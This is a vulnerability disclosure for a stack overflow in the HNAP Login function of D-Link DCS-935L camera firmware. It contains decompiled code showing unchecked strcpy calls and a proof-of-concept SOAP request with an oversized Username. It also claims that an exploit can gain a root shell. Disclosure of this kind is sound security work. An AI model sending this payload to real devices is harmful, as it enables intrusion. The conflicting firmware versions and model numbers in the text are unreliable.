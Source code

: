# DCS-935L_A1_FW_1.13.01_r4589  Stack overflow vulnerability

## INFO
Manufacturer's address：https://www.dlink.com/
Firmware download address ： https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L

## Affected version
The firmware used in this analysis is 1.09

## Vulnerability details

At HNAP service, In the Login function, I can enter Action, the Action will strcpy to v42, but program do not check size, resulting in stack overflow.

```c
int __fastcall Login(int a1)
{
......
	ElementByTag = ixmlGetElementByTag(a1, "Login");
  v5 = ElementByTag;
  if ( !ElementByTag )
  {
    ixmlAppendNewElement(Document, Element, "LoginResult", "failed");
    v15 = Document;
    goto LABEL_49;
  }
  ElementValueByTag = (const char *)ixmlGetElementValueByTag(ElementByTag, "Action");
  if ( ElementValueByTag )
    strcpy(v42, ElementValueByTag);
......
}
```

In the Login function, I can enter Username and LoginPassword, the username&password will strcpy to v36&v38, but program do not check the size, resulting in stack overflow.

```c
int __fastcall Login(int a1)
{
......
				v16 = (const char *)ixmlGetElementValueByTag(v5, "Username");
        v17 = (const char *)ixmlGetElementValueByTag(v5, "LoginPassword");
        if ( v16 )
        {
          strcpy((char *)v36, v16);
          if ( !strcmp((const char *)v36, "Admin") )
            snprintf((char *)v36, 0x20u, "%s", "admin");
        }
        if ( v17 )
          strcpy(v38, v17);
        v53 = (const char *)v36;
        fprintf(stderr, "username: %s\\n", (const char *)v36);
        v55 = v38;
        fprintf(stderr, "loginPassword: %s\\n", v38);
......
}

```

## POC

```python
SOAPAction: http://192.168.0.1/HNAP1/Login
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://192.168.0.1/HNAP1/">
      <Action></Action>
      <Username>a * 0x10000</Username>
      <LoginPassword/>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```

Finally, you can write exp to achieve the effect of stable access to the root shell
